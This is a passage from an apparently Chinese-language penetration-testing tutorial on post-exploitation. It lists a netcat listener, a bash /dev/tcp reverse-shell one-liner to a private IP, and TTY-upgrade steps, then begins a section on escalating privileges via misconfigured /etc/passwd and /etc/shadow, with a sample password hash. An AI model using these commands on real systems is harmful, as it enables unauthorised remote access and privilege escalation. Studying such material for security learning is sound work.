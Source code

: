 ```python
reset				

# 设置使用的shell为bash
export SHELL="bash"		 
```

#### 总结

```python
nc -lvvp 8888

bash -c 'bash -i >& /dev/tcp/192.168.70.29/8888 0>&1'

bash
python -c 'import pty; pty.spawn("/bin/bash")'
^Z
stty raw -echo
fg
reset
export SHELL="bash"
```

![image-20241010153439308](https://image.201068.xyz/assets/38.后渗透/image-20241010153439308.png)

![image-20241010153502279](https://image.201068.xyz/assets/38.后渗透/image-20241010153502279.png)

## 一.利用 shadow 和 passwd 文件配置错误提权

### /etc/shadow 和 /etc/passwd 简介

#### /etc/passwd文件

是用户配置文件，存储了系统中所有用户的基本信息，并且所有用户都可以读取此文件内容。

文件内数据格式如下

> 用户名:密码:UID（用户ID）:GID（组ID）:描述性信息:主目录:

密码字段的"`x`" 表示此用户设有密码，但不是真正的密码，真正的密码保存在 `/etc/shadow` 文件中

#### /etc/shadow文件

用于存储 Linux 系统中用户的密码信息，又称为“`影子文件`”。

由于/etc/passwd 文件允许所有用户读取，易导致用户密码泄露，因此 Linux 系统将用户的密码信息从 /etc/passwd 文件中分离出来，并单独放到了此文件中。/etc/shadow 文件只有 root 用户拥有读限，其他用户没有任何权限，这样就保证了用户密码的安全性。

文件内数据格式如下

> 用户名：加密密码：最后一次修改时间：最小修改时间间隔：密码有效期：密码需要变更前的警告天数：密码过期后的宽限时间：账号失效时间：保留字段 

```bash
$6$AtKftWj1$mDa4mwv3STbE51AbtgC8uj.pgnvHFyn2rlKnIV0MA9uufIXCBJKURVwRLEItfCNGrFnaCpnNUcznQMJ/tR7el.
```
